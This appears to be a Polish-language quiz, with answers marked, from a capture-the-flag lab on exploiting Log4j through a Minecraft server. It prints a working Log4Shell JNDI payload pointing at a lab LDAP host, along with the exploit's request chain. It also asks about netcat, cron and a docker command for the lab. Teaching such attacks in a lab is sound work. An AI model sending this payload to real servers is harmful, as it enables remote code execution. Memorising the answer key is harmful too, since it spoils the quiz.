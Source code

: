 
1. Który payload wysłany na chacie Minecrafta poprawny składniowo:
=>  a. ${jndi:ldap://10.5.0.1:1389/SafeClass}
    b. ${jndi:ldap//10.5.0.1/1389/SafeClass}
    c. ${jndi://ldap:10.5.0.1/1389:SafeClass}
    d. ${jndi:ldap//10.5.0.1:1389/SafeClass}

2. Jaka jest poprawna kolejność zapytań podczas wykorzystywania podatności Log4j:
=>  a. McClient -> McServer -> LDAP -> McServer -> HttpServer -> McServer executes code
    b. McClient -> McServer -> LDAP -> HttpServer -> McServer executes code
    c. McClient ->  LDAP -> HttpServer -> McServer executes code
    d. McClient -> McServer ->  LDAP -> HttpServer executes code

3. Czym jest netcat?
=>  a. Program do nawiązywania połączeń TCP, wysyłania, odbierania ruchu UDP, przesyłania dowolnych danych, ułatwia skryptowanie, bardzo fajny,
    b. Alias na Nyan Cat,
    c. Coś jak cURL - jedynie wyświetla zawartość zasobów sieciowych pod danym URI,
    d. Network Catastrophe - program crashujący cały internet - zakazany przez konwencje genewską, jest karany surowiej niż użycie "avada kedavra",

4. Co to cron?
=>  a. daemon uruchamiający regularnie powtarzane zadania,
    b. nazwa na skrypt,
    c. komenda do wyświetlania logów, kronik,
    d. edytor plików,

5. Która komenda uruchomić kontener `kwasnyy/mcctf:mcexpl` publishując 25565 port kontenera na naszym 2500?
=>  a. `docker run -p 2500:25565 -ti kwasnyy/mcctf:mcexpl`
    b. `docker run -p 25565:2500 -tid kwasnyy/mcctf:mcexpl`
    b. `docker run 25565:2500 -d kwasnyy/mcctf:mcexpl`
    b. `docker run 25565:2500 kwasnyy/mcctf:mcexpl`